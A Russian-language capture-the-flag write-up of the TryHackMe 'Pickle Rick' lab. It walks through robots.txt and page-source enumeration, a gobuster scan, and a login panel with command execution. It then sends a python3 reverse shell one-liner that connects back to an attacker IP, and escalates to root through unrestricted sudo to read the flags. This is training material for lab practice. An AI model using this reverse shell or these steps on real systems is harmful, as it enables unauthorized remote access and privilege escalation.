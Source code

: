 # Pickle Rick WriteUp (Easy) ✅

Запустив машину и перейдя по ip, мы видим страницу с текстом и картинкой&#x20;

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>📌 Добавив в папку /etc/hosts с помощью команды <code>sudo nano /etc/hosts</code> ip машины и ее название, можно обращаться к этому адресу по названию (например rick.thm)</p></figcaption></figure>

Проверив текстовый файл **/robots.txt**, мы можем найти какое-то странное сообщение  (которое в будущем нам понадобится)&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Также, просмотрев код сайта, мы можем заметить записку, в которой указано имя пользователя **R1ckRul3s**

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



Далее, используя инструмент **gobuster** (`gobuster dir -u pent.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .php)` находим несколько скрытых файлов

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Конкретно в данному случае нас интересует файл **/login.php**, перейдя по которому мы попадаем на страницу авторизации

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

В качестве имени пользователя я ввёл ранее найденное имя **R1ckRul3s**, а в качестве пароля - записку в файле **/robots.txt**

Пройдя авторизацию, мы переходим на страницу с командной строкой и несколькими вкладками, которые нам недоступны (впрочем, они и не нужны)

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption><p>С помощью команды <mark style="color:blue;"><strong>ls</strong></mark> мы можем посмотреть, какие файлы находятся в нашем репозитории</p></figcaption></figure>

К сожалению, мы не имеем разрешения вывести содержимое текстового файла с помощью команды **cat**, но введя в адресную строку **ip\_машины/название\_файла.txt** мы можем прочитать то, что в нём находится

🔎 **** Итак, первый ингредиент написан в файле **Sup3rS3cretPickl3Ingred.txt**

<figure><img src="../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы подключиться к данной машине, используем **python3 reverse shell**&#x20;

`python3 -c 'import socket,subprocess,os;s=socket.socket(`[`socket.AF`](https://vk.com/away.php?to=http%3A%2F%2Fsocket.AF\&cc\_key=)`_INET,socket.SOCK_STREAM);s.connect(("10.8.1.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=`[`subprocess.call`](https://vk.com/away.php?to=http%3A%2F%2Fsubprocess.call\&cc\_key=)`(["/bin/sh","-i"]);'`

Запустив слушатель в терминале Linux, отправляем пейлоад в командную строку на сайте, затем получаем реверс шелл от лица пользователя **www-data**

&#x20;

<figure><img src="../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

&#x20;

:mag\_right: Перейдя в директорию **/home**, мы можем найти папку **rick**, в которой и находится второй ингредиент

![](<../.gitbook/assets/image (3) (2) (1).png>)

С помощью команды `sudo -l` мы можем узнать, какие sudo-права мы имеем как пользователь **www-data**

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

В данном случае нам доступны все команды пользователя **root** без пароля &#x20;

Пользуясь этим, мы можем просмотреть содержимое директории **/root** и вывести его в случае необходимости

Третий ингредиент как раз находится в директории **/root** в файле **3rd.txt**

Выводим содержимое файла и получаем последний флаг для данной машины&#x20;

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
